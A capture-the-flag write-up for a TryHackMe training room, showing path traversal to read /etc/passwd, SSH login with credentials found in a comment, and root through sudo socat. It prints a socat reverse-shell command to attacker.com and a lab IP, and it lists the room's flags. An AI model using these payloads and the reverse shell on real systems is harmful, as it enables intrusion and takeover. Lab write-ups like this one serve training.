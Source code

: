 # Tryhackme.com Room : Inclusion
`https://tryhackme.com/room/inclusion`


# Instance
```
export IP=10.10.243.229
```

# Nmap
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-title: My blog
```


# Task 2

1. User Flag
```
60989655118397345799
```

2. Root Flag
```
42964104845495153909
```

We browse the webserver.

When we click on a link we go to `http://$IP/article/?name={NAME}`

We get an internal server error when we enter a dummy article name.
Seems like it's reading directly from file system.

We can read `.bashrc` with `?name=../.bashrc`

We get `/etc/passwd` with `../../../etc/passwd`

```
 root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false 
 ```

There is a commented line
```
#falconfeast:rootpassword
```

Let's try to ssh with those credentials...
And we're in.

We get the user flag:
```
60989655118397345799
```

We can run linpeas.sh to find some vuln.

We find that we are in sudo group

`sudo -l` give :
```
(root) NOPASSWD: /usr/bin/socat
```

from gtfobins.github.io we find this reverse shell :
```
RHOST=attacker.com
RPORT=12345
socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
```

We execute
```
sudo socat tcp-connect:10.10.161.54:4444 exec:/bin/sh,pty,stderr,setsid,sigint,sane
```

And we have a root shell
```
uid=0(root) gid=0(root) groups=0(root)
```

We get the root flag at `/root/root.txt`
```
42964104845495153909
```
